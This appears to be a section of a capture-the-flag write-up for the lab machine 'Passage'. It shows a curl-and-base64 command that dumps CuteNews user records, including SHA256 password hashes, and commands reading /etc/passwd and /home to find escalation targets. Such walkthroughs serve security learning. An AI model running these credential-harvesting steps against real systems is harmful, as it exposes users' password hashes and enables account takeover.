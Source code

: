 ## [USER: paul] -> Weak SHA256 hash disclose through `/CuteNews/cdata/users/lines`
 
Weak SHA256 hash is disclosed in `http://10.10.10.206/CuteNews/cdata/users/lines` and `/etc/passwd` shows user `shaun` and `paul` as potential escalated user.

```bash
$ curl http://10.10.10.206/CuteNews/cdata/users/lines | grep YT | base64 -d
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  3840  100  3840    0     0   7300      0 --:--:-- --:--:-- --:--:--  7286
a:1:{s:5:"email";a:1:{s:16:"paul@passage.htb";s:10:"paul-coles";}}a:1:{s:2:"id";a:1:{i:1598829833;s:6:"egre55";}}a:1:{s:5:"email";a:1:{s:15:"egre55@test.com";s:6:"egre55";}}a:1:{s:4:"name";a:1:{s:5:"admin";a:8:{s:2:"id";s:10:"1592483047";s:4:"name";s:5:"admin";s:3:"acl";s:1:"1";s:5:"email";s:17:"nadav@passage.htb";s:4:"pass";s:64:"7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1";s:3:"lts";s:10:"1592487988";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}a:1:{s:2:"id";a:1:{i:1592483281;s:9:"sid-meier";}}a:1:{s:5:"email";a:1:{s:17:"nadav@passage.htb";s:5:"admin";}}a:1:{s:5:"email";a:1:{s:15:"kim@example.com";s:9:"kim-swift";}}a:1:{s:2:"id";a:1:{i:1592483236;s:10:"paul-coles";}}a:1:{s:4:"name";a:1:{s:9:"sid-meier";a:9:{s:2:"id";s:10:"1592483281";s:4:"name";s:9:"sid-meier";s:3:"acl";s:1:"3";s:5:"email";s:15:"sid@example.com";s:4:"nick";s:9:"Sid Meier";s:4:"pass";s:64:"4bdd0a0bb47fc9f66cbf1a8982fd2d344d2aec283d1afaebb4653ec3954dff88";s:3:"lts";s:10:"1592485645";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}a:1:{s:2:"id";a:1:{i:1592483047;s:5:"admin";}}a:1:{s:5:"email";a:1:{s:15:"sid@example.com";s:9:"sid-meier";}}a:1:{s:4:"name";a:1:{s:10:"paul-coles";a:9:{s:2:"id";s:10:"1592483236";s:4:"name";s:10:"paul-coles";s:3:"acl";s:1:"2";s:5:"email";s:16:"paul@passage.htb";s:4:"nick";s:10:"Paul Coles";s:4:"pass";s:64:"e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd";s:3:"lts";s:10:"1592485556";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}a:1:{s:4:"name";a:1:{s:9:"kim-swift";a:9:{s:2:"id";s:10:"1592483309";s:4:"name";s:9:"kim-swift";s:3:"acl";s:1:"3";s:5:"email";s:15:"kim@example.com";s:4:"nick";s:9:"Kim Swift";s:4:"pass";s:64:"f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af3085fbeca";s:3:"lts";s:10:"1592487096";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"3";}}}a:1:{s:4:"name";a:1:{s:6:"egre55";a:11:{s:2:"id";s:10:"1598829833";s:4:"name";s:6:"egre55";s:3:"acl";s:1:"4";s:5:"email";s:15:"egre55@test.com";s:4:"nick";s:6:"egre55";s:4:"pass";s:64:"4db1f0bfd63be058d4ab04f18f65331ac11bb494b5792c480faf7fb0c40fa9cc";s:4:"more";s:60:"YToyOntzOjQ6InNpdGUiO3M6MDoiIjtzOjU6ImFib3V0IjtzOjA6IiI7fQ==";s:3:"lts";s:10:"1598834079";s:3:"ban";s:1:"0";s:6:"avatar";s:26:"avatar_egre55_spwvgujw.php";s:6:"e-hide";s:0:"";}}}a:1:{s:2:"id";a:1:{i:1592483309;s:9:"kim-swift";}}

$ ls -lsa /home/
total 16
4 drwxr-xr-x  4 root  root  4096 Jul 21  2020 .
4 drwxr-xr-x 23 root  root  4096 Feb  5 04:32 ..
4 drwxr-x--- 17 nadav nadav 4096 Feb 24 19:21 nadav
4 drwxr-x--- 16 paul  paul  4096 Feb  5 06:30 paul

$ tail /etc/passwd
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
nadav:x:1000:1000:Nadav,,,:/home/nadav:/bin/bash
paul:x:1001:1001:Paul Coles,,,:/home/paul:/bin/bash
sshd:x:121:65534::/var/run/sshd:/usr/sbin/nologin
```
